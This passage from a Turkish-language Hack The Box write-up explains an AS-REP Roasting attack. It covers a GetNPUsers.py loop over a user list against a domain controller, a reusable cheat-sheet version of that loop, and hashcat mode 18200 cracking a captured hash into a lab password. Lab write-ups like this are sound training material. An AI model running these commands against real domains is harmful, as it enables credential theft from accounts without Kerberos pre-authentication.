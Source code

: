     - **GetNPUsers.py** aracı çalıştırılır ve belirtilen kullanıcı üzerinde işlem yapılır:
        
        - **`-no-pass`**: Kullanıcı şifresi gerekmeksizin işlem yapılacağını belirtir.
        - **`-dc-ip 10.10.10.161`**: İşlem yapılacak **Domain Controller** (DC) IP adresini belirtir.
        - **`htb/${user}`**: Kullanıcıyı **htb** domain'ine ait olarak hedefler.
    - Bu araç, kullanıcının **Kerberos ön kimlik doğrulama gereksinimi** kapalıysa (UF_DONT_REQUIRE_PREAUTH bayrağı açık) bir **AS-REP** bileti almayı dener.
        
3. **`| grep -v Impacket`**
    
    - Çıktı, **grep** komutuyla filtrelenir.
    - **`-v Impacket`**, **Impacket** modülüyle ilgili gereksiz bilgi veya hata mesajlarını filtreleyerek yalnızca önemli çıktının görüntülenmesini sağlar.
4. **Tüm döngüyü çalıştırma:**
    
    - **`done`** ifadesi, döngünün tamamlanacağını belirtir.
    - Kullanıcı listesindeki her kullanıcı için işlem yapılır ve uygun olanların **AS-REP** biletleri döndürülür.

### **Amaç:**

Bu kod, domain kullanıcıları arasından **Kerberos ön kimlik doğrulama gereksinimi** kapalı olanları tespit eder. Bu kullanıcılar için **AS-REP Roasting** saldırısı yapılabilir, yani biletler alınıp offline brute force ile şifreler çözülebilir.

Cheat Sheet' inize eklemek isterseniz kodun ham hali : 

```
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip <DomainController_IP> mydomain/${user} | grep -v Impacket; done
```

---


### Crack Hash

Şimdi hash'i kırmak için hashcat'i kullanabilirim:

```
root@kali# hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force
...[snip]...
$krb5asrep$23$svc-alfresco@HTB:37a6233a6b2606aa39b55bff58654d5f$87335c1c890ae91dbd9a254a8ae27c06348f19754935f74473e7a41791ae703b95ed09580cc7b3ab80e1037ca98a52f7d6abd8732b2efbd7aae938badc90c5873af05eadf8d5d124a964adfb35d894c0e3b48$
5f8a8b31f369d86225d3d53250c63b7220ce699efdda2c7d77598b6286b7ed1086dda0a19a21ef7881ba2b249a022adf9dc846785008408413e71ae008caf00fabbfa872c8657dc3ac82b4148563ca910ae72b8ac30bcea512fb94d78734f38ae7be1b73f8bae0bbfb49e6d61dc9d06d055004
d29e7484cf0991953a4936c572df9d92e2ef86b5282877d07c38:s3rvice
...[snip]...
```

Not : Hashcat'ın **18200** modu, **Kerberos AS-REP** (Authentication Service Response) şifre çözme modudur. Bu mod, **AS-REP Roasting** saldırısı sonucu alınan Kerberos biletlerini şifre çözmek için kullanılır.

Şifrenin “==s3rvice==” olduğunu görüyorum.
